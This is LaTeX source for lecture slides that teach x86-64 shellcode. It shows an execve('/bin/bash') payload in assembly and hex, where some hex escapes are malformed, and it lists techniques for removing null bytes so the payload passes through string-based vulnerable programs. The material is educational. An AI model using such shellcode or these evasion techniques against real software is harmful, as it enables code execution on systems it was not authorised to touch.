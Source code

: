 \begin{frame}{Shellcode: first attempt}
	\acode
	\begin{lstlisting}
		bits 64

		lea rdi, [rel filename] ; filename
		lea rsi, [rel args] ; argv
		mov rdx, 0 ; envp

		mov [rel args], rdi ; argv[0] <- filename
		mov [rel args+8], rdx ; argv[1] <- null

		mov rax, 59
		syscall

		filename db '/bin/bash',0
		args db 16
	\end{lstlisting}
	\begin{lstlisting}
		\x48\x8d\x3d\x21\x00\x00\x00\x48\x\x8d\x35\x24\x00\x00
		\x00\xba\x00\x00\x00\x00\x48\x89\x3d\x18\x00\x\x00\x00
		\x48\x89\x15\x19\x00\x00\x00\xb8\x3b\x00\x00\x00\x0f
		\x05\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x00\x01\x00
		\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00
	\end{lstlisting}
	\begin{itemize}
		\item \alert{Warning: zero-byte presence!}
		\item Often shellcode payload are red as string.
		\item C strings are null-terminated array of chars.
		\item The vulnerable program will process only the first five bytes!
	\end{itemize}
\end{frame}

\begin{frame}{Shellcode: Zero-byte problem}
	\begin{block}{Zero-bytes presence is caused by data and addresses}
		\begin{itemize}
			\item \emph{mov rax, 11h} is equivalent to \emph{mov rax, 0000000000000011h}.
			\item \emph{lea rax, [rel message]} is equivalent to \emph{lea rax, [rip + 0000\ldots{}xxh]}.
			\item \emph{execve}, for instance, requires a null terminated string and some null parameters.
		\end{itemize}
	\end{block}
	\begin{block}{Solutions}
		\begin{itemize}
			\item Use \emph{xor} operation can zero a register.
			\item Use smaller registers (e.g.: rax $\rightarrow$ eax $\rightarrow$ ax $\rightarrow$ [ah,al])
			\item Use \emph{add} operation: immediate operators are not expanded.
			\item Place non-null marker and substitute them inside the code.
			\item Make a relative reference offset negative.
		\end{itemize}
	\end{block}
\end{frame}

